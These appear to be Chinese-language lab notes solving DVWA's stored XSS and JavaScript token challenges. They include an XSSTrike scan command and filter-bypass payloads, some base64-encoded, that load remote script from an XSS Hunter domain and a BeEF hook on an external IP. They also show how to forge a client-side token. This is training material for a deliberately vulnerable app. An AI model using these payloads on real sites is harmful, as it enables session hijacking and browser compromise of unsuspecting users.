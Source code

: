 **XSSTrike**
```bash!
python3 xsstrike.py -u "https://digidvwa.azurewebsites.net/vulnerabilities/xss_s/" --data "txtName=w&mtxMessage=w&btnSign=Sign+Guestbook" --headers "Cookie: PHPSESSID=n280j97vu4pl3kmv34naghl107; security=high"
```
![](https://i.imgur.com/RsXsFcn.jpg)


### Low
Payload: `<script>alert(1)</script>`
XSShunter: `<script src=https://bravosec.xss.ht></script>`
### Medium
不會排除script tag大小寫混合
Payload: `<scRipT>alert(1)</scRipT>`
XSShunter: `<scRipT src=https://bravosec.xss.ht></scRipT>`
### High
利用html事件如: `<img src=x onerror=.../>`
Payload: `<img src=x onError=alert('www')/>`
![](https://i.imgur.com/C80CGrB.png)

XSSHunter: `<img src=x id=dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS5zcmM9Imh0dHBzOi8vYnJhdm9zZWMueHNzLmh0Ijtkb2N1bWVudC5ib2R5LmFwcGVuZENoaWxkKGEpOw&#61;&#61; onerror=eval(atob(this.id))>`

Beef XSS: `<img src=x id="dmFyIHg9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7eC5zcmM9Imh0dHA6Ly8xNTkuODkuMTE1LjY4OjMwMDAvaG9vay5qcyI7ZG9jdW1lbnQuYm9keS5hcHBlbmRDaGlsZCh4KTs="; onerror=eval(atob(this.id))>
`

## Javascript
### Low
Submit時需要手動呼叫`generate_token()`，從`phrase` input tag產生新token

### Medium
```java!
token=XXeMegnahCXX&phrase=ChangeMe&send=Submit
```
Submit時，token是依照phrase用此格式產生的:`XX<phrase reverse string>XX`
先反轉success字串 ->
```py
>>> "success"[::-1]
'sseccus'
```

request data改成 ->
```java!
token=XXsseccusXX&phrase=success&send=Submit
```

### High
透過`high.js`生成token
`high.js`被obfuscate過
使用線上[deobfuscate工具](https://lelinhtinh.github.io/de4js/)
![](https://i.imgur.com/RaT6gzN.png)
